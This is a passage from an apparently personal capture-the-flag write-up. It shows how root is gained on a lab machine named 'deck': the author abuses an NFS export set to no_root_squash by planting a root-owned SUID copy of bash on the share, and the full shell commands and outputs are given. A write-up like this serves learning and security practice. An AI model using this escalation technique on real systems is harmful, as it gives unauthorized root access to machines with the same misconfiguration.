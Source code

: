 ## Flag #2 - Getting root

Remembering the NFS share that didn't get us anywhere earlier, I checked the **/etc/exports** file and found something really interesting and good for us:

```
/tmp *(rw,no_root_squash)
```

Not only we had write permissions on the share, which I haven't tried, but no root squash means that our root user can leave a SUID shell owned by root on the share for our www-data user after we copy it there with our low-privilege shell:

```
$ cp /bin/bash root
$ ls -l root
-rwxr-xr-x 1 www-data www-data 1109564 Apr  5 12:13 root
```

Now chown to root:

```
root@deck:/mnt# chown root:root root
root@deck:/mnt# chmod +s root
root@deck:/mnt# ls -l root
-rwsr-sr-x 1 root root 1109564 Apr  5  2019 root
```

Execute the binary and you have root on the box and the 2nd flag:

```
whoami
root
ls /root
flag.txt
cat /root/flag.txt
807307b49314f822985d0410de7d8bfe
```

I didn't poke around for more flags, so this is for this box!

``` 
 ________________________________
/ All generalizations are false, \
| including this one.            |
|                                |
\ -- Mark Twain                  /
 --------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
